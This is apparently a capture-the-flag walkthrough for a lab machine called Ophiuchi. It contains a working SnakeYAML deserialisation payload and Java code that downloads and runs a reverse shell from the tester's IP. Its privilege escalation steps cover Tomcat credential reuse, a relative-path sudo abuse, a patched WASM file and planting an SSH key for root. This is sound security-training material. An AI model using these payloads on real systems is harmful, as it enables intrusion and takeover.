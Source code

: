 # Ophiuchi

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

### YAML Parser

Port 8080 was running an application that handles YAML input.

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

This was obviously a deserialisation exploit, where the application handles user input without sanitsation and it can lead to code execution. Googling for this led me to this repository.

{% embed url="https://github.com/mbechler/marshalsec" %}

Based on the PoC, we can first test whether the parser is able to send requests to our host using this script:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://VPN_IP/yaml-payload.jar"]
  ]]
]
```

And it does indeed work.

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

We then need to use this bit of code here to make the machine download a reverse shell and execute it.

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://10.10.16.9/rev.sh -o /tmp/rev.sh");
            Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

After editing this code, we need to compile it to a JAR file using these:

```bash
javac AwesomeScriptEngineFactory.java 
jar -cvf AwesomeScriptingEngineFactory.jar -C src/ .
```

This would create a JAR file. Then, we can make the machine download the JAR file using the same method as above to receive callback. This would trigger the command and our listener port would receive a reverse shell as `tomcat`.&#x20;

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Tomcat Credentials

Since we are `tomcat`, we should look into the configurations for the Tomcat interface. This can be found within `~/conf/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

We can try an `su` to the `admin` user and find that it works with this password.

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password, we can check for `sudo` privileges.

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

Seems that we can run `go` on a certain script:

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

The `deploy.sh` does not have absolute path, so we can create our own script to get a `root` shell. However, before running that, the script seems to check `main.wasm` and only runs `deploy.sh` if it returns 1.&#x20;

Running the script does not work no matter what for now, so let's investigate `main.wasm`. WASM is short for Web Assembly, and we can download and decompile the file here:

{% embed url="https://wasdk.github.io/WasmFiddle/" %}

This would allow us to see the code that is present. Alternatively, we can use `wasm-decompile` to read it.

```
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

The above code seems to do nothing but return 0, so we need to change that 0 to a 1. We can count the bytes and change the byte accordingly using `dd`.&#x20;

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can create a `deploy.sh` file that adds our public key into the `/root/.ssh/authorized_key` folder and run the `sudo` command.

This would allow us to SSH in as `root`.

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>
